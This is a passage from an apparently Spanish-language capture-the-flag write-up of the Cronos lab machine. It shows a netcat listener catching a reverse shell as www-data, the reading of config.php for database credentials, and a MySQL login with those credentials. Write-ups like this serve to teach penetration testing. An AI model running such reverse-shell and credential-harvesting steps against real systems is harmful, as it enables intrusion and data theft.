 ```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.13 - - [19/Aug/2021 11:34:27] "GET / HTTP/1.1" 200 -

───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.198] from (UNKNOWN) [10.10.10.13] 36292
bash: cannot set terminal process group (1369): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cronos:/var/www/admin$
```

Hemos ganado acceso al sistema, ahora nos toca enumerarlo:

Encuentro unas credenciales de mysql en un archivo, pero que al final nos da un hash del usuario admin que no logro crackear:

```bash
www-data@cronos:/var/www/admin$ cat config.php 
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```

```bash
www-data@cronos:/var/www/admin$ mysql -uadmin -pkEjdbRigfBHUREiNSDs
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 13
Server version: 5.7.17-0ubuntu0.16.04.2 (Ubuntu)

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| admin              |
+--------------------+
2 rows in set (0.00 sec)
mysql> use admin;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------+
| Tables_in_admin |
+-----------------+
| users           |
+-----------------+
```